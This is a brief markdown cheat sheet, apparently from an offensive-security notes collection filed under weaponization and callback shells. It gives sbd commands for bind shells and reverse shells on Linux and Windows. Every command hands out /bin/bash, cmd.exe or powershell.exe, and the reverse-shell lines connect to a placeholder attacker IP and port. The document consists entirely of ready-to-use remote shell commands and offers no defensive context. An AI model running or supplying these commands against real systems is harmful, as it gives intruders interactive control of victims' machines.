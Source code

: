 # SBD

## 01 - Linux

### 1.1 - Bind Shell

```
$ sbd -lvnp <target_PORT> -e /bin/bash
```

### 1.2 - Reverse Shell

```
$ sbd <attacker_IP> <attacker_PORT> -e /bin/bash
```

## 02 - Windows

### 2.1 - Bind Shell

```
C:\> sbd -lvnp <target_PORT> -e cmd.exe

C:\> sbd -lvnp <target_PORT> -e powershell.exe
```

### 2.2 - Reverse Shell

```
C:\> sbd <attacker_IP> <attacker_PORT> -e cmd.exe

C:\> sbd <attacker_IP> <attacker_PORT> -e powershell.exe
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xA - Callback Shells/Shell Handler/Cross Platform/Manual/SBD|Shell Handler: SBD]]